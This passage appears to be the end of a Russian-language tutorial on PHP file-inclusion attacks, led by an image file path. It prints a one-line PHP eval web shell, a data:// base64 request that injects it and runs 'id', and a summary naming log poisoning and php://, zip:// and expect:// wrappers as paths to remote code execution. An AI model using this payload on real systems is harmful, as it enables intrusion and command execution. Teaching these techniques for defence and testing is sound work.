 Декодированное:

```php
<?php eval($_GET['cmd']); ?>
```

Запрос:

```http
?page=data://text/plain;base64,PD9waHAgZXZhbCgkX0dFVFsnY21kJ10pOz8+&cmd=id
```

---

## ✅ Резюме

* LFI = доступ к файлам (конфиги, логи)
* RFI = загрузка внешнего кода
* Log poisoning = путь к RCE
* `php://` и `data://` = обойти фильтрацию
* `zip://` и `expect://` = нестандартные пути к RCE

---
